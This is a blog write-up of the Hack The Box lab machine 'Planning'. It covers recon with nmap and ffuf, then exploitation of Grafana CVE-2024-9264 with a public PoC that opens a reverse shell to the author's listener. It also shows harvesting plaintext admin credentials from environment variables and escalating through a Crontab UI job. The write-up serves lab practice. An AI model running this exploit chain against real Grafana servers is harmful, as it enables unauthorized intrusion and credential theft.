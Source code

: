 ```yaml
---
title: "HTB: Planning"
date: 2025-02-22
# weight: 1
# aliases: ["/first"]
tags: ["HTB", "Hackthebox", "Planning"]
author: "YUN Mony"
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Planning is a linux-based machine that its difficulty is easy."
# canonicalURL: "https://canonical.url/to/page"
disableHLJS: false # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "cover/planning.webp" # image path/url
    alt: "HTB : Planning" # alt text
    # caption: "Fluffy Machine from HackTheBox" # display caption under cover
    relative: true # when using page bundles set this to true
    hidden: false # set to false to show the cover image
    # linkFullImages: true
---
```


- At the beginning the machine provides us with some credentials admin/0D5oT70Fq13EvB5r with no other details.

## Initial recon

- First thing first is scan to see what services are running on the machine.

```bash
nmap -sVC -v 10.10.11.68
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-22 15:00 +07
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating Ping Scan at 15:00
Scanning 10.10.11.68 [4 ports]
Completed Ping Scan at 15:00, 0.27s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:00
Completed Parallel DNS resolution of 1 host. at 15:00, 0.05s elapsed
Initiating SYN Stealth Scan at 15:00
Scanning 10.10.11.68 [1000 ports]
Discovered open port 22/tcp on 10.10.11.68
Discovered open port 80/tcp on 10.10.11.68
Discovered open port 8001/tcp on 10.10.11.68
Completed SYN Stealth Scan at 15:00, 2.25s elapsed (1000 total ports)
Initiating Service scan at 15:00
Scanning 3 services on 10.10.11.68
Completed Service scan at 15:00, 6.53s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.11.68.
Initiating NSE at 15:00
Completed NSE at 15:00, 6.73s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 1.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Nmap scan report for 10.10.11.68
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp   open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
8001/tcp open  http    SimpleHTTPServer 0.6 (Python 3.12.3)
|_http-server-header: SimpleHTTP/0.6 Python/3.12.3
|_http-title: Directory listing for /
| http-methods:
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.30 seconds
           Raw packets sent: 1005 (44.196KB) | Rcvd: 1002 (40.080KB)
```

- The ports 22 (SSH), 80(HTTP), 8001(HTTP Simple Server) are open.
- HTTP ports redirect to planning.htb
- Therefore, update /etc/hosts:
- `10.10.11.68 planning.htb`

## Enumerate as hard

- Started by looking around at the website, but nothing important, so tried port 8001 which is a directory listing.
- Saw something interesting, which contains a bunch of files. The interesting file was "CVE-2024-9264".
- Google it and found that it is related to "Grafana" a multi-platform open source analytics and interactive visualization web app.
- Brute force for sub-directory enumeration.

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/services-names.txt -c -t 100 -fs 178

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/services-names.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 247ms]
:: Progress: [1419/1419] :: Job [1/1] :: 382 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

- "grafana" found. added the new entry to /etc/hosts, and visited the app see a login page. I google to look for CVE-2024-9264 since i have clue on port 8001.
- i use the PoC from this "https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit"

```bash
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.123 --reverse-port 9001
```

- for the username and password i take from the provided credential in HTB and it works. So i setup the listener on my machine.

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.123] from (UNKNOWN) [10.10.11.68] 38302
sh: 0: can't access tty; job control turned off
```

## Gained initial foothold

- we are root, yet no flags.
- Look for environment variables. found a credential.

```bash
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=/usr/bin/sh
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
```

- Used the ADMIN_PASSWORD & ADMIN_USER to log in and finally we get in the machine as enzo.
  `enzo@planning:~$ cat user.txt`
- Run linpeas.sh:
  ![Description](/imagesMD/planning1.png)
- Found file that is suspicious inside `/opt/crontab/crontab.db`.
  ![Description](/imagesMD/planning2.png)
- Found another password.
- After enumeration long time.
  ![Description](/imagesMD/planning3.png)
- The machine is host another app on port 8000. It is suspicious so I port forwarding.
  `ssh -L 8000:127.0.0.1:3000 enzo@planning.htb`
- Use SSH it is easy.
- Open browser, type localhost:8000 and it requires credential to access.
- Enter the username root and password the one we just found.
- We got access to Crontab UI.
  ![Description](/imagesMD/planning4.png)
- So I create new cronjob which is cat /root/root.txt > /tmp/flag.
- Execute it and go to /tmp, cat the flag! We are done.

<h3 style="text-align:center">Thanks for reading my writeup!</h3>
